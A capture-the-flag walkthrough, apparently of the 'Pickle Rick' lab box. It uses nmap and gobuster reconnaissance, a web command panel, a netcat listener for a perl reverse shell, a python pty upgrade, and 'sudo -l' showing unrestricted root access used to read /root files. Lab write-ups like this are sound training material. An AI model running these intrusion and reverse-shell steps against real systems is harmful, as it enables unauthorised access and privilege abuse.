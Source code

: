 # Pickle Rick

## 1. Recon

lets look at the website first. Okay. Nothing special. Looking at the source we have something in the comments:
```

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

```

nice.
lets try running gobuster meanwhile, along with nmap.

```
❯ nmap -script=default -sV -A -T4 10.10.106.44
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-17 21:19 EST
Nmap scan report for 10.10.106.44
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ac:a3:87:da:73:ba:1a:d5:e1:22:6a:2a:8b:e5:47:be (RSA)
|   256 b7:59:da:b6:2a:7f:b4:2b:89:f5:b1:13:76:ef:a6:d7 (ECDSA)
|_  256 fc:8d:ba:fa:d8:72:41:b7:d5:1b:c7:06:0c:ca:a4:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.35 seconds
```


```
❯ gobuster dir -u 10.10.106.44 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "html,php,txt"
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.106.44
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2021/02/17 21:20:31 Starting gobuster
===============================================================
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
```

okay. very interesting stuff. let's try it one by one.

`assets/` show

`robots.txt` shows `Wubbalubbadubdub` :D :D :D

interestingly, when i go to `portal.php`, it redirects me to `login.php`. Maybe there is something there? lets see it in burpsuite.

Nothing. a simple redirect. Okay so lets only look at `login.php`. Maybe there is an XSS attack we care looking at ... nope. tried and didnt work.

But what if ... we have both the username and the password already with us? :D

## 2. Foothold
So we have a command pannel and we can execute stuff. hmmm.

And, we are at the `portal.php` page. gg.

`ls`
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

so denied is ... well something we should expect to pop onto us as an error soon.

It also looks like the `cat` command is disabled. So, lets try alternatives ...
`less` works!

`less clue.txt`: `Look around the file system for the other ingredient.`

okay ...

`less Sup3rS3cretPickl3Ingred.txt`: `*** ******* ****`

eww, but yay!


Okay. so now i'm trying to `cd ..` but it doesn't wanna work. we did have the ssh port open, so ...

```
❯ ssh R1ckRul3s@10.10.106.44
The authenticity of host '10.10.106.44 (10.10.106.44)' can't be established.
ECDSA key fingerprint is SHA256:LWuQ+4VfPBKeYlbudgcUF9iFM6hG7u/vjzjziKLavsk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.106.44' (ECDSA) to the list of known hosts.
R1ckRul3s@10.10.106.44: Permission denied (publickey).
```

so first we need to put our public key in the list of ssh's `authorized_keys` file. But how do we get in ...?

Let's try settup up `nc` and get a bash reverse shell going on. Get your own ip by `❯ ifconfig tun0`. I'm taking the reverse shells from `http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`

```
❯ nc -lnvp 4242
listening on [any] 4242 ...
```

hmm. bash gives nothing. 
let's try perl. 

## 3. Priviledge Escalation

So perl reverse shell works! Now, let's upgrade our shell by `$ python3 -c 'import pty; pty.spawn("/bin/bash")'`


```
www-dataÄip-10-10-106-44:/home/rick$ whoami
whoami
www-data
```

```
www-dataÄip-10-10-106-44:/home/ubuntu$ ls -la
ls -la
total 40
drwxr-xr-x 4 ubuntu ubuntu 4096 Feb 10  2019 .
drwxr-xr-x 4 root   root   4096 Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu  320 Feb 10  2019 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .cache
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4096 Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
-rw------- 1 ubuntu ubuntu 4267 Feb 10  2019 .viminfo
```

We could try ssh into the system for a proper shell, but I want to check if we have some low hanging fruits here. That is, do we have root permissions?

exploring, we have:
```
www-dataÄip-10-10-106-44:/home/rick$ ls -la      
ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
```

```
www-data@ip-10-10-86-16:/home/rick$ cat 'second ingredients'
cat 'second ingredients'
* ***** ****
```

:stonks:
1 jerry tear
wait what

```
www-data@ip-10-10-86-16:/home/rick$ sudo -l
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-86-16.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-86-16.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

so we have all the permissions without password lmao

so much for 'priv esc' XD

```
www-data@ip-10-10-86-16:/$ sudo ls /root/
sudo ls /root/
3rd.txt  snap
www-data@ip-10-10-86-16:/$ sudo cat /root/3rd.txt
sudo cat /root/3rd.txt
3rd ingredients: ***** *****
```

PWNED!
